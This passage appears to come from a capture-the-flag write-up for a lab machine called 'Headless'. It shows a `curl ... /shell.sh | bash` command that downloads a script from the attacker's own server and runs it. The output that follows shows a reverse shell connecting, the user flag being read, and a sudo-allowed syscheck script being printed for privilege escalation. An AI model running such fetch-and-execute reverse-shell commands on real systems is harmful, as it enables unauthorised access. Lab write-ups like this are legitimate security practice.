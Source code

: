 #4 action, run a command that pulls the file and runs it:

```bash
curl http:<tun-0>:8000/shell.sh |bash
```

results:

the request accomplished.
```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.8 - - [27/Mar/2024 17:03:02] "GET /shell.sh HTTP/1.1" 200 -
```

and there is a shell.

```bash
listening on [any] 3333 ...
connect to [tun-0] from (UNKNOWN) [10.10.11.8] 47140
bash: cannot set terminal process group (1360): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$
```

Grab user.txt flag.

```bash
dvir@headless:~/app$ cat /home/dvir/user.txt
cat /home/dvir/user.txt
********************************
dvir@headless:~/app$
```

**escalate privilliges**

```bash
dvir@headless:~/app$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

We can escalate privilliges by exploit the syscheck binary file.

read syscheck file:

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
```